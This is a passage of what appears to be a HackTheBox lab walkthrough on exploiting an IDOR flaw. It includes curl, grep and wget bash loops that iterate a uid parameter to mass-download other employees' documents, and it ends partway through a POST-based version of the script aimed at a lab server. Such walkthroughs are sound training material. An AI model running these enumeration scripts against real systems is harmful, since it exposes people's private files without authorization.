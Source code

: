As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. However, it is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:

```shell-session
smoothment@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. This script is one example of how we can achieve the same objective. Try using a tool like Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script to download all documents.

## Question

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250217150006.png)

Let's begin by visiting the website:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217150148.png)

We can view invoices, if we check the request we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217150307.png)

We are set with an `uid` of `1`, so, if an IDOR vulnerability is present in the web application, we can enumerate the invoice files from other users, let's use, also, the `uid` parameter is not injected directly in the URL but inside the request as data, we need to change the script we've been given a little bit, I did this script:

```bash
#!/bin/bash

url="http://94.237.59.180:34953"
results_file="results.txt"

# Clear existing results
> "$results_file"

for i in {1..20}; do
    echo "Testing UID $i..."
    
    # Send POST request with uid parameter
    response=$(curl -s -X POST "$url/documents.php" \
        -H "Content-Type: application/x-www-form-urlencoded" \
```
